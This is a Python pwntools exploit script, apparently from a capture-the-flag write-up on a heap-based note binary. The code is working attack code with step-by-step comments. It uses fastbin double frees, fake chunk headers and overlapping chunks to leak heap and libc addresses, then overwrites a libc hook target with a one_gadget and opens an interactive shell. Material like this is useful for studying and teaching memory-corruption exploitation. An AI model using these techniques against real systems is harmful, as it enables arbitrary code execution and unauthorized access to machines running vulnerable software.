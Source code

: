 ```py
    free(3)    # 3->1
    free(0)    # 0->2->1
    add(0x10,'\xf0') #chunk number 4, which takes away 0th chunk for header and chunk 2 for note
    free(4)    # 4->1
    reu('will free: ')
    heap_base = u64(re(6) + '\x00'*2) - 0xf0
    log.info("heap @ " + hex(heap_base))
    free(1) #Double Free --  1->4->1
    free(3) # 3->1->4->1 
    fake_chunk = heap_base + 0x130
    fake_chunk_2 = heap_base + 0x90
    add(0x10,p64(fake_chunk)) #chunk number 5 , which takes chunk 3 as header and chunk 1 taken as note , its fd overwritten with fake chunk , => 4->1->fake_chunk
    free(2)    # 2->4->1->fake_chunk
    add(0x10,'\xf0') #chunk 6 , which takes chunk 2 as header and chunk 5 as its note, now fastbin left with => 1->fake_chunk
    #We get our overlapping chunk
    add(0x10,p64(0) + p64(0xe1)) # chunk number 7, Faking header's size to small bin , chunk 1 taken as header and fake_chunk returned as overlapping chunk
    free(2)
    add(0x10,'\x78') #Chunk 8, returned from unsorted bin having fd and bk as libc
    free(8)
    reu('will free: ')
    libc_base = u64(re(6) + '\x00'*2) - 0x3c4b78
    log.info('libc_base @ ' + hex(libc_base))
    one_gadget = libc_base + 0xf02a4
    target = libc_base + 0x3c4aed

    #Fake 0x71 size 2 chunks
    free(0) #0
    free(1) #1->0
    free(0) #0->1->0
    free(2) #2->0->1->0
    add(0x10,p64(fake_chunk_2)) #1->0->fake_chunk2
    free(2) #2->1->0->fake_chunk2
    add(0x10,'\xf0') #0->fake_chunk2
    add(0x10,p64(0) + p64(0x71)) 

    free(0) #0
    free(3) #3->0
    free(0) #0->3->0
    free(2) #2->0->3->0
    add(0x10,p64(fake_chunk)) #3->0->fake_chunk
    free(2) #2->3->0->fake_chunk
    add(0x10,'\xf0')
    add(0x10,p64(0) + p64(0x71))

    #free 0x71 chunks , double free
    free(2) #2
    free(1) #1->2
    free(2) #2->1->2
    add(0x60,p64(target)) #1->4->target
    add(0x60,p64(target)) #4->target
    add(0x60,p64(target)) #target->Null
    add(0x60,'a'*19 + p64(one_gadget)) #Getting the target chunk for writing one_gadget
    free(0)
    gdb.attach(io)
    free(0)
    io.interactive()

```
